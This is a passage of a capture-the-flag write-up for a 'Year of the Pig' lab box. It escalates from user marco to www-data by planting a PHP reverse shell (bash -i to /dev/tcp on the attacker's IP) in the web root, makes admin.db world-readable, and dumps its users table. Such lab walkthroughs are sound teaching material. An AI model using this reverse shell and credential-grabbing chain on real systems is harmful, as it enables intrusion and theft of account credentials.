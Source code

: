 Using `linpeas`, we find the following:
```
Found: /var/www/admin.db: regular file, no read permission
```
```console
marco@year-of-the-pig:/var/www$ ls -al
total 36
drwxr-xr-x  3 www-data web-developers  4096 Dec 28 02:05 .
drwxr-xr-x 13 root     root            4096 Aug 22  2020 ..
-rw-------  1 www-data www-data       24576 Dec 28 02:05 admin.db
drwxrwxr-x  7 www-data web-developers  4096 Aug 21  2020 html
```
`admin.db` is owned by `www-data`, for which we don't have access yet, so we need to go back to the website.

## www-data
Since we can add files to `/var/www/html`, we can "upload" a php reverse shell. I used
[https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell)
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.my.ip.addr/8001 0>&1'");?>
```
After we trigger the reverse shell, `curl 10.10.216.205/rev.php`, we get a shell as `www-data`. Now we modify the permission of `admin.db` so we can access the database from ssh.
```console
www-data@year-of-the-pig:/var/www$ chmod 777 admin.db
chmod 777 admin.db
www-data@year-of-the-pig:/var/www$ ls -al
ls -al
total 40
drwxr-xr-x  3 www-data web-developers  4096 Dec 28 03:26 .
drwxr-xr-x 13 root     root            4096 Aug 22  2020 ..
-rw-------  1 www-data www-data          32 Dec 28 03:26 .bash_history
-rwxrwxrwx  1 www-data www-data       24576 Aug 21  2020 admin.db
drwxrwxr-x  7 www-data web-developers  4096 Dec 28 03:24 html
```
And we find the `curtis`'s password hash from the database.
```console
marco@year-of-the-pig:/var/www$ sqlite3 admin.db 
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> .dump users
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
userID TEXT UNIQUE PRIMARY KEY,
username TEXT UNIQUE,
password TEXT);
INSERT INTO users VALUES('58a2f366b1fd51e127a47da03afc9995','marco','[omitted]');
INSERT INTO users VALUES('f64ccfff6f64d57b121a85f9385cf256','curtis','[omitted]');
COMMIT;
sqlite> 
```
